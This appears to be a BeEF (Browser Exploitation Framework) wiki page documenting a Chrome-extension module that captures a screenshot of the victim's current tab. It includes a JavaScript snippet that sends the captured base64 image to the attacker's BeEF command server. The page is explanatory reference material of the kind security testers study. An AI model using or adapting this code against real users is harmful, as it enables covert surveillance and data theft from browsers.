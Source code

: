 ## Summary

* **Objective**: Take a screenshot of the current tab
* **Authors**: mh
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/chrome_extensions/screenshot)

## Internal Working

This module tries to take a screenshot of the current tab and returns it as base64 data. Only works if the `chrome.tabs.captureVisibleTab` method is available.

As of 2019, it does not work in the newer versions of Chrome. This method only works within the context of an extension having the `<all_urls>` permission.

``` js
chrome.tabs.captureVisibleTab(null, function(img) {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'img: ' + img.toString());
});
```

## References

https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/API/Tabs/captureVisibleTab


## Feedback

